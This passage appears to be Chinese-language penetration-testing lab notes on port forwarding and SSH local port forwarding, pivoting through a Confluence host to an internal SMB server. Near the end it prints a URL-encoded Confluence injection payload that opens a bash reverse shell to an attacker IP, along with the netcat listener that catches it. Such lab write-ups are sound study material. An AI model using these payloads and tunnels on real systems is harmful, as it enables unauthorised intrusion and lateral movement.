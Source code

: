 ```
kali@kali:~$ ssh database_admin@192.168.228.63 -p2222
The authenticity of host '[192.168.228.63]:2222 ([192.168.228.63]:2222)' can't be established.
ED25519 key fingerprint is SHA256:3TRC1ZwtlQexLTS04hV3ZMbFn30lYFuQVQHjUqlYzJo.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.228.63]:2222' (ED25519) to the list of known hosts.
database_admin@192.168.228.63's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-122-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

...
database_admin@pgdatabase01:~$
```
> 成功登入 database_admin

>[!Important]
>除了 socat 之外，還有其他方式可以在 UNIX / Linux 系統上建立 Port Forwarding:
>- rinetd（Redirection Internet Daemon:\
適合 longer-term port forwarding ，以 daemon 運行。
>- netcat + FIFO
>可以透過 netcat 和 FIFO 文件來建立端口轉發，這種方法適合簡單或一次性的轉發需求。
>- iptables（需 root 權限）
>需要額外啟用 Linux 封包轉發功能: `echo 1 > /proc/sys/net/ipv4/conf/[interface]/forwarding`

## SSH Tunneling
[Tunneling protocol](https://en.wikipedia.org/wiki/Tunneling_protocol): 將一種 data stream 封裝在另一種 data stream 中，並透過網路傳輸。[SSH](https://en.wikipedia.org/wiki/Secure_Shell)（Secure Shell）也是其中一種 protocol。\
在 SSH 之前（未加密）： `rsh`、`rlogin`、`Telnet`\
在官方文件中，SSH Tunneling 通常被稱為 SSH Port Forwarding
### SSH Local Port Forwarding
[SSH local port forwarding](https://man.openbsd.org/ssh#L) 與上述 socat port forwarding 不同之處，是在兩個 hosts（ SSH client與 SSH server）之間建立 SSH connection，所有流量都從 Tunnel 通過。\
- 場景修改：
    - CONFLUENCE01 不再支援 socat
    - 我們仍然擁有 database_admin credentials，可 SSH 進入 PGDATABASE01。
    - 在 PGDATABASE01 內部網段，發現一台新的 SMB 伺服器（TCP 445）
    - 目標：我們希望從 Kali 下載 SMB 伺服器上的檔案。

- 解法：
    - 透過 SSH Local Port Forwarding 來建立隧道：
    - 讓 CONFLUENCE01 監聽 TCP 4455。
    - 所有發送到 4455 的流量會透過 SSH 隧道傳送到 PGDATABASE01。
    - PGDATABASE01 會進一步將流量轉發到內部 SMB 伺服器（TCP 445）。
    ![image](https://hackmd.io/_uploads/ryfDVN7o1l.png)
#### 1. Python 3's pty module with TTY functionality
重新注入 reverse shell
```
┌──(chw㉿CHW)-[~]
└─$ curl http://192.168.147.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.166/5678%200%3E%261%27%29.start%28%29%22%29%7D/
```
```
┌──(chw㉿CHW)-[~]
└─$ nc -nvlp 5678
listening on [any] 5678 ...
connect to [192.168.45.166] from (UNKNOWN) [192.168.147.63] 47734
bash: cannot set terminal process group (2111): Inappropriate ioctl for device
bash: no job control in this shell
```